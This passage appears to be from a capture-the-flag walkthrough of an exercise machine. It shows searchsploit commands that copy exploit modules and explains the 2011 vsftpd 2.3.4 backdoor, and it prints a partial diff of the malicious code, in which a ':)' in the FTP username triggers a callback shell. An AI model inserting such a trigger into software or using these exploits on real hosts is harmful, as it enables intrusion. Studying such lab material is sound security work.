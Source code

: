 ![searchsploit](./lame/searchsploit.png)

Of these, exploit numbers 17491, 45001, and 16320 look interesting. First is 17491, so copy them all over:

```bash
searchsploit -m 17491
searchsploit -m 45001
searchsploit -m 16320
```

Here is the description:

> This module exploits a malicious backdoor that was added to the VSFTPD download
> archive. This backdoor was introdcued into the vsftpd-2.3.4.tar.gz archive between
> June 30th 2011 and July 1st 2011 according to the most recent information
> available. This backdoor was removed on July 3rd 2011.

The code has the following URLs:

- http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
- http://pastebin.com/AetT9sS5

This blog has the following description:

> The backdoor payload is interesting. In response to a :) smiley face in the FTP username, a TCP callback shell is attempted.

Seems simple enough. The pastebin URL has the following C code that was added/removed to make the backdoor:

```
--- vsftpd-2.3.4/str.c  2011-06-30 15:52:38.000000000 +0200
+++ vsftpd-2.3.4.4players/str.c 2008-12-17 06:54:16.000000000 +0100
     {
       return 1;
     }
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
   }
   return 0;
 }
--- vsftpd-2.3.4/sysdeputil.c   2011-06-30 15:58:00.000000000 +0200
+++ vsftpd-2.3.4.4players/sysdeputil.c  2010-03-26 04:25:33.000000000 +0100
-int
```